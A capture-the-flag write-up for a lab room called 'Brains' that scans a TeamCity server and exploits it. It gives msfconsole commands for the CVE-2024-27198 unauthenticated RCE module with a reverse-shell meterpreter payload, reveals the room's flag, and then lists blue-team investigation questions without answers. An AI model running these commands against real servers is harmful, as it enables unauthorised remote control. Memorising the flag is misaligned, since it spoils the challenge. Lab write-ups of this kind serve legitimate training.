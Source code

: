 # Brains

### Red: Exploit the Server!
- What is the content of flag.txt in the user's home folder?<br />
Initial nmap scan shows port 22,80 and 50000 open:

      # Nmap 7.94SVN scan initiated Thu Oct 24 13:25:08 2024 as: /usr/lib/nmap/nmap --privileged -p22,80,50000 -sV -sC -oN scan 10.10.255.64
      Nmap scan report for 10.10.255.64
      Host is up (0.049s latency).
      
      PORT      STATE SERVICE  VERSION
      22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   3072 27:e9:31:1b:37:ff:f4:a6:28:12:b2:42:38:04:d9:02 (RSA)
      |   256 c7:92:82:3a:64:b7:97:51:4b:55:f1:03:1e:bf:71:a4 (ECDSA)
      |_  256 15:01:a2:88:de:0d:81:c5:62:ea:d9:e2:89:e7:96:02 (ED25519)
      80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
      |_http-title: Maintenance
      |_http-server-header: Apache/2.4.41 (Ubuntu)
      50000/tcp open  ibm-db2?
      | fingerprint-strings: 
      |   GetRequest: 
      |     HTTP/1.1 503 
      |     TeamCity-Node-Id: MAIN_SERVER
      |     Pragma: no-cache
      |     Expires: Thu, 01 Jan 1970 00:00:00 GMT
      |     Cache-Control: no-cache
      |     Cache-Control: no-store
      |     Set-Cookie: TCSESSIONID=269C95301AE7386AEC7E1239DFF521E9; Path=/; HttpOnly
      |     Content-Type: text/html;charset=UTF-8
      |     Date: Thu, 24 Oct 2024 11:25:29 GMT
      |     Connection: close
      |     <!--
      |     Page: maintenance-welcome
      |     Stage: APPLICATION_STARTING
      |     State revision: 26
      |     Timestamp: Thu Oct 24 11:25:29 UTC 2024
      |     [Stage description: Initializing TeamCity server components]
      |     <!DOCTYPE html>
      |     <html>
      |     <head>
      |     <title>TeamCity Maintenance &mdash; TeamCity</title>
      |     <link rel="shortcut icon" href="/favicon.ico" type="image/x-icon"/>
      |     <meta http-equiv="content-type" content="text/html; charset=UTF-8"/>
      |     <meta name="application-name" content="TeamCity"/>
      |     <meta name="description" content="Powerful Continuous Integration and Build Server"/>
      |     <link href="
      |   ibm-db2, ibm-db2-das: 
      |     HTTP/1.1 400 
      |     Content-Type: text/html;charset=utf-8
      |     Content-Language: en
      |     Content-Length: 435
      |     Date: Thu, 24 Oct 2024 11:25:29 GMT
      |     Connection: close
      |     <!doctype html><html lang="en"><head><title>HTTP Status 400 
      |     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
      |_    Request</h1></body></html>
      1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
      SF-Port50000-TCP:V=7.94SVN%I=7%D=10/24%Time=671A2EA9%P=x86_64-pc-linux-gnu
      SF:%r(GetRequest,BFD,"HTTP/1\.1\x20503\x20\r\nTeamCity-Node-Id:\x20MAIN_SE
      SF:RVER\r\nPragma:\x20no-cache\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2
      SF:000:00:00\x20GMT\r\nCache-Control:\x20no-cache\r\nCache-Control:\x20no-
      SF:store\r\nSet-Cookie:\x20TCSESSIONID=269C95301AE7386AEC7E1239DFF521E9;\x
      SF:20Path=/;\x20HttpOnly\r\nContent-Type:\x20text/html;charset=UTF-8\r\nDa
      SF:te:\x20Thu,\x2024\x20Oct\x202024\x2011:25:29\x20GMT\r\nConnection:\x20c
      SF:lose\r\n\r\n\n\n<!--\nPage:\x20maintenance-welcome\nStage:\x20APPLICATI
      SF:ON_STARTING\nState\x20revision:\x2026\nTimestamp:\x20Thu\x20Oct\x2024\x
      SF:2011:25:29\x20UTC\x202024\n\[Stage\x20description:\x20Initializing\x20T
      SF:eamCity\x20server\x20components\]\n-->\n\n\n\n\n\n<!DOCTYPE\x20html>\n<
      SF:html>\n\n<head>\n\n\x20\x20<title>TeamCity\x20Maintenance\x20&mdash;\x2
      SF:0TeamCity</title>\n\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20href=\"
      SF:/favicon\.ico\"\x20type=\"image/x-icon\"/>\n\x20\x20<meta\x20http-equiv
      SF:=\"content-type\"\x20content=\"text/html;\x20charset=UTF-8\"/>\n\x20\x2
      SF:0<meta\x20name=\"application-name\"\x20content=\"TeamCity\"/>\n\x20\x20
      SF:<meta\x20name=\"description\"\x20content=\"Powerful\x20Continuous\x20In
      SF:tegration\x20and\x20Build\x20Server\"/>\n\x20\x20<link\x20href=\"")%r(i
      SF:bm-db2-das,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/html;char
      SF:set=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435\r\nDate:
      SF:\x20Thu,\x2024\x20Oct\x202024\x2011:25:29\x20GMT\r\nConnection:\x20clos
      SF:e\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HTTP\x20St
      SF:atus\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20type=\"t
      SF:ext/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\
      SF:x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x20{font-s
      SF:ize:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;}\x20p\x
      SF:20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{height:1px;bac
      SF:kground-color:#525D76;border:none;}</style></head><body><h1>HTTP\x20Sta
      SF:tus\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html>")%r(ibm
      SF:-db2,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/html;charset=ut
      SF:f-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435\r\nDate:\x20Th
      SF:u,\x2024\x20Oct\x202024\x2011:25:29\x20GMT\r\nConnection:\x20close\r\n\
      SF:r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HTTP\x20Status\x
      SF:20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20type=\"text/cs
      SF:s\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,
      SF:\x20b\x20{color:white;background-color:#525D76;}\x20h1\x20{font-size:22
      SF:px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;}\x20p\x20{fon
      SF:t-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{height:1px;backgroun
      SF:d-color:#525D76;border:none;}</style></head><body><h1>HTTP\x20Status\x2
      SF:0400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html>");
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Port 80 is under mantainance. Port 50000 shows a teamcity login page.<br />
![image](https://github.com/user-attachments/assets/08916bae-3ac0-4d0d-bf2b-c42b11b5f21b)<br />
Teamcity is a CI/CD (continuous integration/delivery) server that supports code creation, testing and realease. Searching online for this version, I found out that it is vulnerable to anauthenticated RCE and that there'a metasploit module available. Here's the msfconsole commands to use: 

    use multi/http/jetbrains_teamcity_rce_cve_2024_27198
    set target 3
    set payload cmd/linux/http/x64/meterpreter/reverse_tcp
    set rhosts 10.10.255.64
    set rport 50000
    set fetch_writable_dir /tmp
    set set lhost YOUR_IP
    run
![image](https://github.com/user-attachments/assets/5779c2bb-663c-4745-a848-fba55a520139)<br />
`THM{faa9bac345709b6620a6200b484c7594}`


### Blue: Let's Investigate
- What is the name of the backdoor user which was created on the server after exploitation?<br />
- What is the name of the malicious-looking package installed on the server?<br />
- What is the name of the plugin installed on the server after successful exploitation?<br />
